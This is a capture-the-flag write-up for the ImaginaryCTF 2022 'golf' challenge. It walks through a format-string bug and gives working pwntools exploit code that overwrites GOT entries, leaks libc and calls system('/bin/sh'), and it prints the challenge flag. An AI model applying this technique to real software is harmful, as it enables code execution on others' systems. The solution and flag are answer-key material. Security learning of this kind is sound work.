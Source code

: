 # ImaginaryCTF - 2022

Original challenge link: https://2022.imaginaryctf.org/Challenges

You can also download challenge files in my repo: [golf.zip](golf.zip)

There will be 2 files in zip:
- golf
- golf.c

Download and extract and we can get started!

# 1. Find bug

Opening source file and we can see it's hard to read. With a bit modifying and here is the source:

```c
main()
{
	char aa[256];
	fgets(aa, 256, stdin);
	if(	strlen (aa) < 11)
		printf(aa);
	exit(00);
}
```

It read upto 256 byte but will check if it's length lower than 11 or not, and if it's true, it will execute `printf()`, which has **Format String** bug.

And if we can execute `printf()` we may overwrite `exit@got` so let's check if RELRO is FULL or not:

```bash
$ checksec golf
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Nice! It's `Partial RELRO` so overwriting `exit@got` is possible.

# 2. Idea

Because `printf()` will be executed just in case `strlen(aa) < 11`, we can input format string at the begining of input, then a null byte to terminate our string to pass this check and then the address of `main()` and address of `exit@got`. 

Due to the small len, we cannot input a large pad to the format string. Therefore, using wildcard character will help us in padding bytes: `%*<k>$c` will print the number of byte at position `<k>` so we will use it as padding.

After overwriting `exit@got` into `main()`, we will leak libc address, download libc and overwrite `printf@got` with `system` and in the next loop, input `/bin/sh` to execute `printf("/bin/sh")` which is actually `system("/bin/sh")`

Summary:
- Stage 1: Overwrite exit@got to main
- Stage 2: Leak libc address
- Stage 3: Overwrite printf@got to system

# 3. Exploit

### Stage 1: Overwrite exit@got to main

The idea shows everything. This is script for first stage:

```python
payload = b'%*8$c%9$nA' + b'\x00'
payload = payload.ljust(0x10, b'P')
payload += flat(exe.sym['main'], exe.got['exit'])
p.sendline(payload)
p.recvuntil(b'A')
```

Format string `%*8$c` will point to `exe.sym['main']` and will print `0x40121b` bytes of padding. Format string `%9$n` will write to `exe.got['exit']` the number of padding was printed, which is `0x40121b` bytes of pad. The byte `A` at the end just for marking when it's done printing.

Before `printf()`

![before-overwrite-exit-got.png](images/before-overwrite-exit-got.png)

After `printf()`

![after-overwrite-exit-got.png](images/after-overwrite-exit-got.png)

### Stage 2: Leak libc address

With the program execute main again, we can easily leak the address of any @got we want:

```python
payload = b'%8$sB' + b'\x00'
payload = payload.ljust(0x10, b'P')
payload += flat(exe.got['printf'])
p.sendline(payload)

printf_addr = u64(p.recvuntil(b'B', drop=True) + b'\x00\x00')
log.info(hex(printf_addr))
```

Run and attach with gdb, we can see both address are correct:

![leak-printf-attach-recv.png](images/leak-printf-attach-recv.png)

![leak-printf-attach-gdb.png](images/leak-printf-attach-gdb.png)

Let's connect to server and get the real address:

![leak-real-libc.png](images/leak-real-libc.png)

Then go to https://libc.rip/ to get libc:

![libc-rip-search.png](images/libc-rip-search.png)

![libc-rip-result.png](images/libc-rip-result.png)

There are some 32-bit and 64-bit libcs but we just need to focus on 64-bit libcs such as

```
libc6-amd64_2.31-6_i386
libc6_2.31-6_amd64
libc6-amd64_2.31-5_i386
libc6_2.31-5_amd64
libc6_2.31-0ubuntu9.8_amd64
```

You can try all libc but for me, I prefer the last one with `libc6_2.31-0ubuntu9.8_amd64`. Let's download and patch to binary and we can continue. Modifying the code receiving address to following:

```python
printf_addr = u64(p.recvuntil(b'B', drop=True) + b'\x00\x00')
libc.address = printf_addr - libc.sym['printf']
log.info(hex(libc.address))
```

### Stage 3: Overwrite printf@got to system

This stage is similar to stage 1 so code is the same:

```python
payload = b'%*8$c%9$nC' + b'\x00'
payload = payload.ljust(0x10, b'P')
payload += flat(libc.sym['system'], exe.got['printf'])
p.sendline(payload)
p.recvuntil(b'C')
```

And when we overwriten `printf@got`, just send string `/bin/sh` to get shell:

```python
p.sendline(b'/bin/sh')
```

Hold on! Because libc address is different for every run and the wildcard character `%*8$c` will print the number of pad equal to a unsigned number. For example, when we use wildcard character at an address `0xdeadbeefcafebabe`, it will just print `0xcafebabe` bytes of pad.

So we will want the most significant byte of `0xcafebabe`, which is byte `0xca`, to be a small byte so waiting will not be long. Hence we need to put stage 1 and 2 in a while loop and loop until the base address of libc has that byte lower than `0x10`:

```python
while True:
	p = process(exe.path)
	# p = remote('golf.chal.imaginaryctf.org', 1337)

	###########################################
	### Stage 1: Overwrite exit@got to main ###
	###########################################
	payload = b'%*8$c%9$nA' + b'\x00'
	payload = payload.ljust(0x10, b'P')
	payload += flat(exe.sym['main'], exe.got['exit'])
	p.sendline(payload)
	p.recvuntil(b'A')

	##################################
	### Stage 2: Leak libc address ###
	##################################
	payload = b'%8$sB' + b'\x00'
	payload = payload.ljust(0x10, b'P')
	payload += flat(exe.got['printf'])
	p.sendline(payload)

	try:
		printf_addr = u64(p.recvuntil(b'B', drop=True)[-6:] + b'\x00\x00')
	except:
		p.close()
		continue
	libc.address = printf_addr - libc.sym['printf']
	log.info(hex(printf_addr))
	log.info(hex(libc.address))

	if ((libc.address >> 24) & 0xff) < 0x5:        # Check here
		break
	libc.address = 0
	p.close()
```

Full script: [solve.py](solve.py)

# 4. Get flag

![get-flag.png](images/get-flag.png)

Flag is `ictf{useless_f0rmat_string_quirks_f0r_days_9b5d191f}`